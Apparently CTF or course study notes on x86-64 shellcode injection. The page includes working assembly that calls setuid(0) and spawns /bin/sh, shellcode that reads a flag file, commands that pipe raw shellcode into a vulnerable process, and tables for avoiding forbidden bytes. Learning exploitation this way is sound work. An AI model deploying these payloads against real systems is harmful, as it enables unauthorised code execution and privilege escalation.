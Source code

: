 # Shellcode Injection

## Resources

- [syscall.sh](https://syscall.sh/): Your cheat sheet for syscalls. A glance here, and you're always ahead.
- [Syscalls Manpage](https://man7.org/linux/man-pages/man2/syscalls.2.html): Understand not just the calls, but their deeper implications.
- [Felix Cloutier](https://www.felixcloutier.com/x86/): Dive into the heartbeats of instructions, ensuring you're always in step.
- [x86asm Reference:](http://ref.x86asm.net/coder64.html) Decode the bytes into moves, turning the tables on any challenge.
- [Debugging - Reverse Execution](https://sourceware.org/gdb/current/onlinedocs/gdb.html/Reverse-Execution.html)
- [shell-storm](https://shell-storm.org/shellcode/index.html)
- [Online x86/x64 assembler/disassembler](https://defuse.ca/online-x86-assembler.htm) - Convert assembly into byte code

## Writing Shellcode

Simple way to pop a shell:

```assembly
.global _start
_start:
.intel_syntax noprefix
        # setuid
        mov rax, 0x69
        mov rdi, 0
        syscall


        # pop shell with execve
        mov rax, 0x3b
        lea rdi, [rip+binsh]
        mov rsi, 0
        mov rdx, 0
        syscall

binsh:
        .string "/bin/sh"
```

There are other ways to represent strings in ASM such as hexadecimal:

```assembly
mov rbx, 0x0068732f6e69622f     # mov "/bin/sh\0" into rbx
push rbx                        # push "/bin/sh\0" onto the stack
mov rdi, rsp                    # point rdi at the stack
```

Another goal would be to read the flag:

```assembly
mov rbx, 0x00000067616c662f     # push "/flag" onto stack
push rbx
mov rax, 2                      # syscall for open
mov rdi, rsp                    # point the first argument at stack ("/flag")
mov rsi, 0                      # NULL second argument
syscall                         # open("/flag", NULL)

mov rdi, 1                      # out fd
mov rsi, rax                    # in fd
mov rdx, 0                      # offset
mov r10, 1000                   # count
mov rax, 40                     # syscall for sendfile
syscall                         # sendfile(1, N, 0, 1000)

mov rax, 60
syscall
```

## Building Shellcode

Assembling shellcode:

```bash
gcc -nostdlib -static shellcode.s -o shellcode-elf
```

Extracting shellcode:

```bash
objcopy --dump-section .text=shellcode-raw shellcode-elf
```

The resulting shellcode-raw file contains the raw bytes of your shellcode. This is what you would inject as part of your exploits. 

The ELF from before is very useful for testing your shellcode. 

```bash
gcc -nostdlib -static shellcode.s -o shellcode-elf
./shellcode-elf
```

Disassembling shellcode:

```bash
objdump -M intel -d shellcode-elf
```

Sending shellcode to the stdin of a process (wiht user input afterwards):

```bash
cat shellcode-raw /dev/stdin | ./vulnerable_process
```

Strace a program with your shellcode as input:

```bash
cat shellcode-raw | strace ./vulnerable_process
```

To debug your shellcode, use `strace`

```bash
gcc -nostdlib -static shellcode.s -o shellcode-elf
strace ./shellcode-elf
```

You can also use `gdb`:

```bash
gdb ./shellcode-elf
r < shellcode-raw
```

## Common Challenges

### Forbidden Bytes

Depending on the injection method, certain bytes might not be allowed. Some common issues:

| Byte (Hex Value) | Problematic Methods |
|------------------|---------------------|
| Null byte \0 (0x00) | strcpy |
| Newline \n (0x0a) | scanf gets getline fgets |
| Carriage return \r (0x0d) | scanf |
| Space (0x20) | scanf |
| Tab \t (0x09) | scanf |
| DEL (0x7f) | protocol specific |

You'll need to craft your instructions creatively by examining the bytes of the op-codes you are using:

| Filter | Bad | Good |
|--------|-----|------|
| no NULLs | mov rax, 0 (48c7c000000000) | xor rax, rax (4831c0) |
| no NULLs | mov rax, 5 (48c7c005000000) | xor rax, rax; mov al, 5 (4831c0b005) |
| no newlines | mov rax, 10 (48c7c00a000000) | mov rax, 9; inc rax (48c7c00900000048ffc0) |
| no NULLs | mov rbx, 0x67616c662f (48bbcf666c6167000000) | mov ebx, 0x67616c66; shl rbx, 8; mov bl, 0x2f (bb666c616748c1e308b32f) |
| printables | mov rax, rbx (4889d8) | push rbx, pop rax (5358, "SX")